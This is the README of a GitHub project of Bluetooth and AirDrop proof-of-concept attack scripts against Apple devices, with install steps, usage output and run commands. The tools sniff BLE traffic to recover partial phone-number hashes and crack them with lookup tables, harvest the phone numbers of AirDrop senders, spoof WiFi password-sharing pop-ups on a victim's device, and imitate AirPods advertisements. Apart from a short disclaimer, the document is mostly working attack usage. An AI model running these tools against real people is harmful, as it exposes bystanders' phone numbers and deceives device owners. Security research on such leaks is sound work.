

# Apple bleee


## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and WiFi card supporting active monitor mode with frame injection for communication using `AWDL` (AirDrop). **We recommend the Atheros AR9280** chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**

## Requirements (Lucas)
I have adapted those scripts deleting all the function that was not available and refactoring the scripts in order to use a more Pythonic and modern way to organize the code. Please read carefully the [OWL](https://github.com/seemoo-lab/owl) and [Opendrop](https://github.com/seemoo-lab/opendrop) documentation in order to understand what's going on underneath these scripts.
Also, you need for the airdrop part an **Active Monitor Network Card** as the Authors said, the **Atheros AR9280** should work but you can use the **TP-LINK Archer T2U/T1U** if you want a usb card.

## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_bleee
cd apple_ble
sudo ./install.sh
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### CLI: ble_read_script.py

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.



```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-t TTL] [-b BLE_IFACE] [-w W_IFACE] [-s] [-a]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -t TTL, --ttl TTL     Time To Live
  -b BLE_IFACE, --ble_iface BLE_IFACE
                        Bluetooth inteface
  -w W_IFACE, --w_iface W_IFACE
                        Wireless Interface
  -s, --ssid            Get SSID from request
  -a, --airdrop         Get info from AWDL airdrop

```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit


### CLI: airdrop_leak.py

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface. **Never use owl with the -N flag as it could lead into problems, always check if you have active monitor mode**

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-n NAME] [-i IFACE] [-p PHONE] [-m MAIL]

    AirPods advertise spoofing PoC
    ---chipik
    

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  Name of the interface
  -i IFACE, --iface IFACE
                        Wireless inteface
  -p PHONE, --phone PHONE
                        phone
  -m MAIL, --mail MAIL  mail
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py
```

### CLI: adv_wifi.py


This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

### CLI: adv_airpods.py

This script mimics AirPods by sending `BLE` messages

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r] [-b BLE_IFACE]

    AirPods advertise spoofing PoC
    ---chipik
    

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
  -b BLE_IFACE, --ble_iface BLE_IFACE
                        Bluetooth inteface
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```


### Api phone

This service allows to build a service to request the hashed phones, just update the generate_number/generate_hashes functions in views.py to adapt to your phone number requirements.

## Contacts

[Lucas Fernandez](https://twitter.com/lucferbux)
[Pablo Gonzalez](https://twitter.com/pablogonzalezpe)
